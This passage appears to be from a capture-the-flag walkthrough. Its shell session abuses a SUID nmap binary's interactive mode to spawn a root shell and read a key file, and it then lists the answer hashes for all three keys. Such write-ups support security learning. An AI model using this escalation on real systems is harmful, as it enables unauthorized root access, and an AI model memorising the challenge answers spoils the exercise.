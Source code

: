 [https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)

```
nmap --interactive

nmap> !sh
!sh
# whoami
whoami
root
# cd /root 
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

`04787ddef27c3dee1ee161b21670b4e4`

1. What is key 1?

* `073403c8a58a1f80d943455fb30724b9`

2. What is key 2?

* `822c73956184f694993bede3eb39f959`

3. What is key 3?

* `04787ddef27c3dee1ee161b21670b4e4`
